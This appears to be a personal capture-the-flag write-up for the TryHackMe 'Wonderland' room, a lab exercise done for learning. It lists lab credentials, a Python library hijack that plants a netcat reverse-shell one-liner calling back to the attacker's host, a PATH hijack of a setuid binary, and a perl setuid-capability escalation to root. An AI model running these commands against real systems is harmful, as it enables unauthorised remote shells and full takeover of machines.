 # Wonderland

[Wonderland](https://tryhackme.com/room/wonderland)

## Solution

- nmap scan 22, 80

- dirb scan img, r

also tried feroxbuster and it detected also the entire dir tree.

I tried to go to /r/a/b/b/i/t one by one and it showed some text on the pages.
On the last page we can inspect the source and see the following
`alice:HowDothTheLittleCrocodileImproveHisShiningTail`. This is the login for
ssh into the box.

We can run `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as
rabbit. The python script imports random and uses choice. Something new I
learned `python path hijack`. We can create a file called `random.py` in the
current directory and define the choice function to do something shaddy.

```
import os

def choice(a):
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc `ip` `port`>/tmp/f")
```

Open a nc listener on the host machine on port `port` and then run the script.
Then we run `sudo -u rabbit /usr/bin/python3.6
/home/alice/walrus_and_the_carpenter.py` To run the command as rabbit. And now
we should have a shell with the user rabbit.

In the home directory of rabbit we can find an executable that does something.
I don't know how to do this cleanly, but we can copy the teaParty executable to
alice and then use scp to get it on the host machine. (I did something like
`cat teaParty > /tmp/teaParty` and then from alice I copied it to home, and
then did `scp alice@<ip>:teaParty .` on the host). Then we can use strings on
the file and check for interesting stuff. We can also gdb/dissasemble it. We
can see that it executes the date command, so as with the python code we can
overwrite it. It also does setuid 1003 which means that it runs it as the
Hatter user. After we run `./teaParty` we will be logged in as hatter. In his
home we can find the password file `WhyIsARavenLikeAWritingDesk?`.

I ran linpeas and found that `perl` has setuid capabilities. So we can try one
exploit. `/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec
"/bin/sh";'` Next we can go to the alice home and print the root.txt file.
Finally we can go to the root home and find the user.txt file.
